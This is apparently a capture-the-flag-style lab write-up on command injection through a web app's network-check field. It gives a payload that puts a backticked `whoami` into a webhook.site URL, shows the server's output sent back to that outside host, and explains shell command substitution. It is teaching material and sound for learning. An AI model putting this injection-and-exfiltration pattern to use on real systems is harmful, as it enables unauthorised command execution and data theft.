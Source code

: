 
# 🌐 Command Injection 0x02: Network Check Exploitation

---

## ❓ Overview of the Lab

This lab demonstrates how a seemingly innocent feature like a network check can be exploited using command injection techniques to run arbitrary commands on the server.

---

## 🛠️ Exploitation Technique

### **User Input**
Entered into the network check target input field:
```bash
https://webhook.site/08c29163-c569-4f1c-b964-503ad450e860/?q=`whoami`
```

---

### **Response from Webhook.site**
Result displayed on the webhook site:
```
https://webhook.site/08c29163-c569-4f1c-b964-503ad450e860/?q=www-data
```

---

## 🤔 Why Use Backticks (`)?

### **Function of Backticks**
In many shell environments (like bash), backticks are used to perform **command substitution**.  
Command substitution is the process where the shell executes the command inside the backticks and substitutes the output of this command in place.

### **Example Explanation**
In the URL:
```
https://webhook.site/.../?q=`whoami`
```
- The shell executes the `whoami` command, which returns the username of the user running the process (e.g., `www-data`).
- The shell replaces the `whoami` command with its output (`www-data`) before sending the URL.

---

## ❌ Why Single Quotes Don’t Work

### **Single Quote Behavior**
- Single quotes are used in shell environments to treat everything inside them as a string literal.
- They do not allow command substitution within them.

### **Implication for Command Injection**
- Using single quotes around `whoami`, like `'whoami'`, would prevent the command from being executed. Instead, it would be treated as part of the URL string, failing to perform command injection.

---

## 📝 Lab Conclusion

- **Successful Command Injection:**  
  The use of backticks in the input allowed execution of a system command (`whoami`), successfully exploiting a command injection vulnerability.  
  This demonstrates the importance of sanitizing and validating all user inputs in web applications to prevent malicious exploitation.

---

## 🌍 Real-World Implications

- **Potential Risks:**  
  This type of vulnerability could allow attackers to gain unauthorized access to system information or perform more dangerous commands, highlighting the critical nature of secure coding practices.

---
